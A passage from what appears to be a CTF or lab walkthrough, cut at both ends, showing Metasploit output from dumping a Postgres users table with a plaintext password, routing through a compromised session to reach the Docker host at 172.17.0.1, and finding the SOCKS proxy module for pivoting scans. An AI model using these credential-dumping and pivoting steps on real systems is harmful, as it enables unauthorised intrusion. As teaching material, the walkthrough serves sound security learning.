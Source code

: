 Query Text: 'select * from users'
=================================

    id  username  password  created_at                  deleted_at
    --  --------  --------  ----------                  ----------
    1   santa     p4$$w0rd  2022-09-13 19:39:51.669279  NIL

[*] Auxiliary module execution completed
```

## Can we find the host computer where these docker containers are running

By default, Docker chooses a hard-coded IP to represent the host machine.

```172.17.0.1```


We can use this IP, route it throught the docker contatiner we have access to and comunicate with the host machine from there. 

```
msf6 auxiliary(admin/postgres/postgres_sql) > route

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.17.0.1         255.255.255.255    Session 3
   172.28.101.51      255.255.255.252    Session 3

```

### Proxy

If we for example want to user nmap on this machine we need to add a proxy, so our host machine knows how to route comunication throught the active sessions we have on metasploit. We can do that with the **socks proxy** module in Metasploit

```
msf6 auxiliary(admin/postgres/postgres_sql) > search socks proxy

Matching Modules
================

   #  Name                          Disclosure Date  Rank    Check  Description
   -  ----                          ---------------  ----    -----  -----------
   0  auxiliary/server/socks_proxy                   normal  No     SOCKS Proxy Server
   1  auxiliary/server/socks_unc                     normal  No     SOCKS Proxy UNC Path Redirection


Interact with a module by name or index. For example info 1, use 1 or use auxiliary/server/socks_unc

